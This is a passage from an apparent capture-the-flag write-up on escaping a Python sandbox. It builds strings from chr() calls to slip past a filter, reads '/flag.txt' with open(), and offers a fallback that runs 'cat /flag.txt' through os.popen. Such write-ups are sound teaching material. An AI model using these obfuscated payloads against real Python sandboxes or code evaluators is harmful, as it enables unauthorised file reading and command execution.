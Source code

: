 ### 2. Testing chr() Function
Verify chr() works:
```python
chr(65)
```
Expected output: `A`

### 3. Final Payload
Submit the complete payload:
```python
open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read()
```

### 4. Alternative Payloads

If `open` is somehow blocked, we can use `__import__` to access the `os` module:

```python
__import__(chr(111)+chr(115)).popen(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read()
```

Where:
- `chr(111)+chr(115)` = "os"
- `chr(99)+chr(97)+chr(116)+chr(32)` = "cat "

## ASCII Reference Table

| Character | ASCII Value | chr() Function |
|-----------|------------|----------------|
| `/`       | 47         | chr(47)        |
| `f`       | 102        | chr(102)       |
| `l`       | 108        | chr(108)       |
| `a`       | 97         | chr(97)        |
| `g`       | 103        | chr(103)       |
| `.`       | 46         | chr(46)        |
| `t`       | 116        | chr(116)       |
| `x`       | 120        | chr(120)       |
| `o`       | 111        | chr(111)       |
| `s`       | 115        | chr(115)       |
| `c`       | 99         | chr(99)        |
| ` `       | 32         | chr(32)        |

## Why This Works
